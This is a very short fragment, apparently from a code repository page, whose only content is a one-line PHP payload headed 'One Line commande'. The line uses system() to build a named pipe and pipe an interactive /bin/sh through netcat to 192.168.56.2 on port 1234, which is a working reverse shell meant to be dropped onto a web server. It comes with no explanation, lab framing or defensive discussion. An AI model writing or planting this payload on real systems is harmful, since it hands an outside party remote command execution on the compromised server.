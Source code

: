 
### One Line commande 

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.2 1234 >/tmp/f"); ?>
```
